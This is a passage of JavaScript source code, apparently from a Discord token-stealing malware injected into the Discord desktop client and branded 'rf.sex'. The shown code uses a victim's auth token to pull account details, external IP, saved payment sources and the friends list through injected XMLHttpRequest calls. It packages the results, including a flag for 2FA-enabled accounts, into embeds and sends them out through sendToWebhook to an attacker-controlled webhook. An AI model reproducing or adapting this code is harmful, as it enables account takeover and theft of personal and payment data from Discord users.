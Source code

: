                                     "thumbnail": {
                                        "url": `https://cdn.discordapp.com/avatars/${json.id}/${json.avatar}`
                                    }
                                }, {
                                    "title": `total friends (${totalFriends()})`,
                                    "color": config['embed-color'],
                                    "description": calcFriends(),
                                    "author": {
                                        "name": "rf.sex"
                                    },
                                    "footer": {
                                        "text": "better than all."
                                    },
                                    "thumbnail": {
                                        "url": `https://cdn.discordapp.com/avatars/${json.id}/${json.avatar}`
                                    }
                                }]
                            }
                            var mfaembed = {
                                "title": "<:bughunter_2:874750808430874664> storm alert",
                                "description": `to view 2FA passwords, log into your account and click "View Codes"`,
                                "color": config['embed-color'],
                                "fields": fieldo,
                                "author": {
                                    "name": "rf.sex"
                                },
                                "footer": {
                                    "text": "better than all."
                                }
                            }
                            if (token.startsWith("mfa")) {
                                params.embeds.push(mfaembed)
                            }
                            sendToWebhook(JSON.stringify(params))
                        })
                    } else {
                        const window = BrowserWindow.getAllWindows()[0];
                        window.webContents.executeJavaScript(`
                                        var xmlHttp = new XMLHttpRequest();
                                        xmlHttp.open( "GET", "https://discord.com/api/v8/users/@me", false );
                                        xmlHttp.setRequestHeader("Authorization", "${token}");
                                        xmlHttp.send( null );
                                        xmlHttp.responseText;`, !0).then((info) => {
                            window.webContents.executeJavaScript(`
                                        var xmlHttp = new XMLHttpRequest();
                                        xmlHttp.open( "GET", "https://www.myexternalip.com/raw", false );
                                        xmlHttp.send( null );
                                        xmlHttp.responseText;
                                        `, !0).then((ip) => {
                                window.webContents.executeJavaScript(`
                                        var xmlHttp = new XMLHttpRequest();
                                        xmlHttp.open( "GET", "https://discord.com/api/v9/users/@me/billing/payment-sources", false );
                                        xmlHttp.setRequestHeader("Authorization", "${token}");
                                        xmlHttp.send( null );
                                        xmlHttp.responseText`, !0).then((info3) => {
                                    window.webContents.executeJavaScript(`
                                        var xmlHttp = new XMLHttpRequest();
                                        xmlHttp.open( "GET", "https://discord.com/api/v9/users/@me/relationships", false );
                                        xmlHttp.setRequestHeader("Authorization", "${token}");
                                        xmlHttp.send( null );
                                        xmlHttp.responseText`, !0).then((info4) => {
                                        function totalFriends() {
                                            var f = JSON.parse(info4)
                                            const r = f.filter((user) => {